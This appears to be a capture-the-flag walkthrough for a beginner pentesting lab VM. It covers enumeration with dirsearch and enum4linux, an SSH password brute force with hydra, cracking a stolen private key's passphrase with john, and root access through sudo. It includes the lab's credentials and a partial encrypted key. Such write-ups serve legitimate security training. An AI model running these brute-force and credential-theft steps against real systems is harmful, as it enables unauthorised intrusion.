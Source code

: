 # Web App Testing

### What is the name of the hidden directory on the web server(enter name without /)?
```
┌──(root💀kali)-[~]
└─# dirsearch -u "<machine ip>"
...
[21:20:50] 200 -    1KB - /development/
...
```
> *Answer:* development

### What is the username?
```
┌──(root💀kali)-[~]
└─# enum4linux <machine ip>
...
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```
> *Answer:* jan

### What is the password?
```
┌──(root💀kali)-[~]
└─# hydra -l jan -P rockyou.txt ssh://<machine ip> -vV -f
...
[22][ssh] host: 10.10.21.222   login: jan   password: armando
...
```
> *Answer:* armando

### What service do you use to access the server(answer in abbreviation in all caps)?
> *Answer:* SSH

### What is the name of the other user you found(all lower case)?
> *Answer:* kay

### What is the final password you obtain?
```
┌──(root💀kali)-[~]
└─# ssh jan@<machine ip>
jan@10.10.21.222's password: (write armando here)
...
jan@basic2:~$ pwd
/home/jan
jan@basic2:~$ cd /home/kay
jan@basic2:/home/kay$ ls -la
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
jan@basic2:/home/kay$ ls -la .ssh
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
jan@basic2:/home/kay$ cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6ABA7DE35CDB65070B92C1F760E2FE75

IoNb/J0q2Pd56EZ23oAaJxLvhuSZ1crRr4ONGUAnKcRxg3+9vn6xcujpzUDuUtlZ
...
e5ofsDLuIOhCVzsw/DIUrF+4liQ3R36Bu2R5+kmPFIkkeW1tYWIY7CpfoJSd74VC
3Jt1/ZW3XCb76R75sG5h6Q4N8gu5c/M0cdq16H9MHwpdin9OZTqO2zNxFvpuXthY
-----END RSA PRIVATE KEY-----
```
Copy id_rsa to inside kali.
```
┌──(root💀kali)-[~]
└─# python /usr/share/john/ssh2john.py id_rsa > id_rsa.john

┌──(root💀kali)-[~]
└─# john --wordlist=rockyou.txt id_rsa.john
...
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)
Warning: Only 1 candidate left, minimum 2 needed for performance.
...
```
SSH to machine with Kay.
```
jan@basic2:/home/kay$ ssh -i .ssh/id_rsa kay@<machine ip>
...
Enter passphrase for key '.ssh/id_rsa': (write beeswax here)
...
kay@basic2:~$ cat /home/kay/pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
> *Answer:* heresareallystrongpasswordthatfollowsthepasswordpolicy$$


<br><br>
# Privilege Escalation
```
kay@basic2:~$ sudo -l
[sudo] password for kay: (write heresareallystrongpasswordthatfollowsthepasswordpolicy$$ here)
Matching Defaults entries for kay on basic2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kay may run the following commands on basic2:
    (ALL : ALL) ALL
kay@basic2:~$ sudo su
root@basic2:/home/kay#
```

<h1 align="center">
  <img src="https://i2.wp.com/media4.giphy.com/media/mQG644PY8O7rG/giphy.gif" style="max-width:600px;">
</h1>

```
root@basic2:/home/kay# cd /root
root@basic2:~# ls -la
total 28
drwx------  3 root root 4096 Apr 23  2018 .
drwxr-xr-x 24 root root 4096 Apr 23  2018 ..
-rw-------  1 root root  510 Apr 23  2018 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root 1017 Apr 23  2018 flag.txt
drwxr-xr-x  2 root root 4096 Apr 18  2018 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
root@basic2:~# cat flag.txt
Congratulations! You've completed this challenge. There are two ways (that I'm aware of) to gain 
a shell, and two ways to privesc. I encourage you to find them all!

If you're in the target audience (newcomers to pentesting), I hope you learned something. A few
takeaways from this challenge should be that every little bit of information you can find can be
valuable, but sometimes you'll need to find several different pieces of information and combine
them to make them useful. Enumeration is key! Also, sometimes it's not as easy as just finding
an obviously outdated, vulnerable service right away with a port scan (unlike the first entry
in this series). Usually you'll have to dig deeper to find things that aren't as obvious, and
therefore might've been overlooked by administrators.

Thanks for taking the time to solve this VM. If you choose to create a writeup, I hope you'll send 
me a link! I can be reached at josiah@vt.edu. If you've got questions or feedback, please reach
out to me.

Happy hacking!
```

